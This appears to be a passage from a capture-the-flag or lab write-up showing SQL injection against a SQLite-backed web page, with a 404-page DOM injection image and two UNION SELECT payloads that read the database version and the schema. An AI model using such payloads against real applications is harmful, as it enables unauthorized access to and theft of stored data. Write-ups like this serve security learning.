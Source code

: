 <img src="assets/website_404_dom_injection.jpg" alt="404 page DOM injection" width="400px">

Let's get the version

```sql
' UNION SELECT 1,sqlite_version(); --+
```

> 3.40.1

Okay now let's look at the tables:

```sql
' UNION SELECT 1,sql FROM sqlite_schema; --+
```
